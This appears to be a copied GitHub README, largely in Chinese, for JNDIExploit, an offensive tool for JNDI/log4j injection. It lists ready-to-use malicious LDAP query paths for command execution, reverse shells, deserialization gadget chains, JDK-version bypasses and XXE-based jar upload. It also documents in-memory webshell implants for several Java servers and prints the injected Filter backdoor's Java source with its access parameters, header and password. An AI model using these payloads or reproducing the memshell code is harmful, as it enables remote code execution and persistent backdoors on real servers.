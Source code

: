 # Credits
    ** Full credits to feihong-cs. I have just copied this repo for my reference to work with log4j if there is anything which i face. **




# JNDIExploit
一款用于 ```JNDI注入``` 利用的工具，大量参考/引用了 ```Rogue JNDI``` 项目的代码，支持直接```植入内存shell```，并集成了常见的```bypass 高版本JDK```的方式，适用于与自动化工具配合使用。

## 使用说明

使用 ```java -jar JNDIExploit.jar -h``` 查看参数说明，其中 ```--ip``` 参数为必选参数

```
Usage: java -jar JNDIExploit.jar [options]
  Options:
  * -i, --ip       Local ip address
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show usage (default: false)
    -h, --help     Show this help
```

使用 ```java -jar JNDIExploit.jar -u``` 查看支持的 LDAP 格式
```
Supported LADP Queries
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://127.0.0.1:1389/Basic/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/Basic/Dnslog/[domain]
    ldap://127.0.0.1:1389/Basic/Command/[cmd]
    ldap://127.0.0.1:1389/Basic/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Basic/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/Basic/TomcatEcho
    ldap://127.0.0.1:1389/Basic/SpringEcho
    ldap://127.0.0.1:1389/Basic/WeblogicEcho
    ldap://127.0.0.1:1389/Basic/TomcatMemshell1
    ldap://127.0.0.1:1389/Basic/TomcatMemshell2  ---need extra header [shell: true]
    ldap://127.0.0.1:1389/Basic/JettyMemshell
    ldap://127.0.0.1:1389/Basic/WeblogicMemshell1
    ldap://127.0.0.1:1389/Basic/WeblogicMemshell2
    ldap://127.0.0.1:1389/Basic/JBossMemshell
    ldap://127.0.0.1:1389/Basic/WebsphereMemshell
    ldap://127.0.0.1:1389/Basic/SpringMemshell

[+] Deserialize Queries: ldap://127.0.0.1:1389/Deserialization/[GadgetType]/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/Deserialization/URLDNS/[domain]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK1/Dnslog/[domain]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK2/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils1/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils2/TomcatEcho
    ldap://127.0.0.1:1389/Deserialization/C3P0/SpringEcho
    ldap://127.0.0.1:1389/Deserialization/Jdk7u21/WeblogicEcho
    ldap://127.0.0.1:1389/Deserialization/Jre8u20/TomcatMemshell1
    ldap://127.0.0.1:1389/Deserialization/CVE_2020_2555/WeblogicMemshell1
    ldap://127.0.0.1:1389/Deserialization/CVE_2020_2883/WeblogicMemshell2    ---ALSO support other memshells

[+] TomcatBypass Queries
    ldap://127.0.0.1:1389/TomcatBypass/Dnslog/[domain]
    ldap://127.0.0.1:1389/TomcatBypass/Command/[cmd]
    ldap://127.0.0.1:1389/TomcatBypass/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/TomcatBypass/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/TomcatBypass/TomcatEcho
    ldap://127.0.0.1:1389/TomcatBypass/SpringEcho
    ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell1
    ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell2   ---need extra header [shell: true]
    ldap://127.0.0.1:1389/TomcatBypass/SpringMemshell

[+] GroovyBypass Queries
    ldap://127.0.0.1:1389/GroovyBypass/Command/[cmd]
    ldap://127.0.0.1:1389/GroovyBypass/Command/Base64/[base64_encoded_cmd]

[+] WebsphereBypass Queries
    ldap://127.0.0.1:1389/WebsphereBypass/List/file=[file or directory]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Dnslog/[domain]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Command/[cmd]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/WebsphereMemshell
    ldap://127.0.0.1:1389/WebsphereBypass/RCE/path=[uploaded_jar_path]   ----e.g: ../../../../../tmp/jar_cache7808167489549525095.tmp
```
* 目前支持的所有 ```PayloadType``` 为
  * ```Dnslog```: 用于产生一个```DNS```请求，与 ```DNSLog```平台配合使用，对```Linux/Windows```进行了简单的适配
  * ```Command```: 用于执行命令，如果命令有特殊字符，支持对命令进行 ```Base64编码```后传输
  * ```ReverseShell```: 用于 ```Linux``` 系统的反弹shell，方便使用
  * ```TomcatEcho```: 用于在中间件为 ```Tomcat``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```SpringEcho```: 用于在框架为 ```SpringMVC/SpringBoot``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```WeblogicEcho```: 用于在中间件为 ```Weblogic``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```TomcatMemshell1```: 用于植入```Tomcat内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```TomcatMemshell2```: 用于植入```Tomcat内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```, 使用时需要添加额外的```HTTP Header``` ```Shell: true```, **推荐**使用此方式
  * ```SpringMemshell```: 用于植入```Spring内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WeblogicMemshell1```: 用于植入```Weblogic内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WeblogicMemshell2```: 用于植入```Weblogic内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```，**推荐**使用此方式
  * ```JettyMemshell```: 用于植入```Jetty内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```JBossMemshell```: 用于植入```JBoss内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WebsphereMemshell```: 用于植入```Websphere内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
* 目前支持的所有 ```GadgetType``` 为
  * ```URLDNS```
  * ```CommonsBeanutis1```
  * ```CommonsBeanutis2```
  * ```CommonsCollections1```
  * ```CommonsCollections2```
  * ```C3P0```
  * ```Jdk7u21```
  * ```Jre8u20```
  * ```CVE-2020-2551```
  * ```CVE-2020-2883```
* ```WebsphereBypass``` 中的 3 个动作：
  * ```list```：基于```XXE```查看目标服务器上的目录或文件内容
  * ```upload```：基于```XXE```的```jar协议```将恶意```jar包```上传至目标服务器的临时目录
  * ```rce```：加载已上传至目标服务器临时目录的```jar包```，从而达到远程代码执行的效果（这一步本地未复现成功，抛```java.lang.IllegalStateException: For application client runtime, the client factory execute on a managed server thread is not allowed.```异常，有复现成功的小伙伴麻烦指导下）

## ```内存shell```说明
* 采用动态添加 ```Filter/Controller```的方式，并将添加的```Filter```移动至```FilterChain```的第一位
* ```内存shell``` 的兼容性测试结果请参考 [memshell](https://github.com/feihong-cs/memShell) 项目
* ```Basic cmd shell``` 的访问方式为 ```/anything?type=basic&pass=[cmd]```
* ```Behinder shell``` 的访问方式需要修改```冰蝎```客户端（请参考 [冰蝎改造之适配基于tomcat Filter的无文件webshell](https://mp.weixin.qq.com/s/n1wrjep4FVtBkOxLouAYfQ) 的方式二自行修改），并在访问时需要添加 ```X-Options-Ai``` 头部，密码为```rebeyond```

植入的 Filter 代码如下：
```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("[+] Dynamic Filter says hello");
        String k;
        Cipher cipher;
        if (servletRequest.getParameter("type") != null && servletRequest.getParameter("type").equals("basic")) {
            k = servletRequest.getParameter("pass");
            if (k != null && !k.isEmpty()) {
                cipher = null;
                String[] cmds;
                if (File.separator.equals("/")) {
                    cmds = new String[]{"/bin/sh", "-c", k};
                } else {
                    cmds = new String[]{"cmd", "/C", k};
                }

                String result = (new Scanner(Runtime.getRuntime().exec(cmds).getInputStream())).useDelimiter("\\A").next();
                servletResponse.getWriter().println(result);
            }
        } else if (((HttpServletRequest)servletRequest).getHeader("X-Options-Ai") != null) {
            try {
                if (((HttpServletRequest)servletRequest).getMethod().equals("POST")) {
                    k = "e45e329feb5d925b";
                    ((HttpServletRequest)servletRequest).getSession().setAttribute("u", k);
                    cipher = Cipher.getInstance("AES");
                    cipher.init(2, new SecretKeySpec((((HttpServletRequest)servletRequest).getSession().getAttribute("u") + "").getBytes(), "AES"));
                    byte[] evilClassBytes = cipher.doFinal((new BASE64Decoder()).decodeBuffer(servletRequest.getReader().readLine()));
                    Class evilClass = (Class)this.myClassLoaderClazz.getDeclaredMethod("defineClass", byte[].class, ClassLoader.class).invoke((Object)null, evilClassBytes, Thread.currentThread().getContextClassLoader());
                    Object evilObject = evilClass.newInstance();
                    Method targetMethod = evilClass.getDeclaredMethod("equals", ServletRequest.class, ServletResponse.class);
                    targetMethod.invoke(evilObject, servletRequest, servletResponse);
                }
            } catch (Exception var10) {
                var10.printStackTrace();
            }
        } else {
            filterChain.doFilter(servletRequest, servletResponse);
        }

    }
 ```
 
 ## 参考
 * https://github.com/veracode-research/rogue-jndi
 * https://github.com/welk1n/JNDI-Injection-Exploit
 * https://github.com/welk1n/JNDI-Injection-Bypass
